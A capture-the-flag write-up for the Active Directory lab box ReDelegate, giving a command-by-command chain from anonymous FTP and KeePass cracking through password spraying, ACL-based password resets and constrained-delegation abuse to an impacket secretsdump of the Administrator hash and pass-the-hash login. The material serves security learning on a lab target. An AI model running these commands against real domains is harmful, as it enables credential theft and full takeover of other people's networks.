




ReDelegate is an Active Directory box (redelegate.vl). Anonymous FTP yields a KeePass database cracked with a hint-built wordlist, those secrets spray into MSSQL and then AD, a ForceChangePassword ACL takes over a user, and that user's SeEnableDelegationPrivilege plus GenericAll over a computer is abused for constrained delegation with protocol transition — ending in a DCSync of the Administrator hash.
Reconnaissance
nmap -Pn -p- -sC -sV 10.129.11.197
21/tcp ftp Microsoft ftpd (Anonymous FTP allowed)
88/tcp kerberos-sec
389/tcp ldap redelegate.vl, dc.redelegate.vl
1433/tcp ms-sql-s Microsoft SQL Server 2019
5985/tcp http WinRMAnonymous FTP & a hint-built wordlist
Anonymous FTP holds three files:
ftp anonymous@10.129.11.197
CyberAudit.txt Shared.kdbx TrainingAgenda.txtThe training agenda drops a strong hint about the password policy:
"Weak Passwords" - Why "SeasonYear!" is not a good passwordThat yields a small seasonal wordlist. (Re-fetch the KeePass file in binary mode — ASCII mode corrupts it.)
Spring2024!
Summer2024!
Autumn2024!
Fall2024!
Winter2024!Cracking the KeePass database
python keepass2john.py Shared.kdbx > Shared.hash
john --wordlist=wordlist.txt Shared.hash
Fall2024! (Shared)Opening the database in KeePassXC with Fall2024! reveals a set of stored secrets, all added to the wordlist for spraying.

MSSQL → AD foothold
Only one secret authenticates — to MSSQL, as a local login:
netexec mssql 10.129.11.197 -u SQLGuest -p zDPBpaF4FywlqIv11vii --local-auth
[+] DC\SQLGuest:zDPBpaF4FywlqIv11viiEnumerating SQL logins (via Metasploit's mssql_enum_sql_logins) expands the user list, and re-spraying the cracked passwords across AD lands a domain user:
bloodhound-python -u Marie.Curie -p 'Fall2024!' -d redelegate.vl -ns 10.129.11.197 -c ALL --zip
Marie.Curie can force-change helen.frost's password.ForceChangePassword → user flag
Marie.Curie holds ForceChangePassword over helen.frost; reset it, grab a ticket, and WinRM in:
bloodyAD -d redelegate.vl -u marie.curie -p Fall2024! --dc-ip 10.129.234.50 \
set password helen.frost 'Password@1'
impacket-getTGT -k redelegate.vl/helen.frost:'Password@1'
KRB5CCNAME=helen.frost.ccache evil-winrm -r redelegate.vl -i dc.redelegate.vlhelen.frost has the user flag — and a very interesting privilege:
whoami /priv
SeEnableDelegationPrivilege Enable computer and user accounts to be trusted for delegation Enabled
SeMachineAccountPrivilege Add workstations to domain Enabled
helen.frost.Constrained delegation → Domain Admin
helen.frost has GenericAll over the computer FS01$. Take ownership, reset its password, and flag it for protocol-transition delegation:
bloodyAD ... set owner 'FS01$' helen.frost
bloodyAD ... set password 'FS01$' 'Password@1'
bloodyAD ... add uac FS01$ -f TRUSTED_TO_AUTH_FOR_DELEGATIONTRUSTED_TO_AUTH_FOR_DELEGATIONenables protocol transition (S4U2self), soFS01$can request a service ticket as any user without their password;msDS-AllowedToDelegateTo = cifs/dc.redelegate.vlthen says it may delegate to the DC's CIFS service. Setting that attribute is only permitted because helen.frost holdsSeEnableDelegationPrivilege— that privilege is the linchpin of the whole box. No shares are touched;cifs/is just one SPN the DC registers (ldap/works too).
impacket-getTGT -k redelegate.vl/helen.frost:'Password@1'
export KRB5CCNAME=helen.frost.ccache
bloodyAD -d redelegate.vl -k --host dc.redelegate.vl \
set object FS01$ msDS-AllowedToDelegateTo -v cifs/dc.redelegate.vlNow request a ticket to the DC's CIFS service while impersonating the dc account (S4U2self + S4U2proxy):
impacket-getST -k -no-pass -spn cifs/dc.redelegate.vl -impersonate dc redelegate.vl/FS01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc@cifs_dc.redelegate.vl@REDELEGATE.VL.ccache
FS01$ flagged TRUSTED_TO_AUTH_FOR_DELEGATION.That CIFS ticket to the DC is enough to dump the Administrator hash, then pass-the-hash in:
export KRB5CCNAME=dc@cifs_dc.redelegate.vl@REDELEGATE.VL.ccache
impacket-secretsdump -k -no-pass dc.redelegate.vl -just-dc-user Administrator
Administrator:500:aad3b435...:ec17f7a2a4d96e177bfd101b94ffc0a7:::
evil-winrm -i dc.redelegate.vl -u Administrator -H ec17f7a2a4d96e177bfd101b94ffc0a7
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt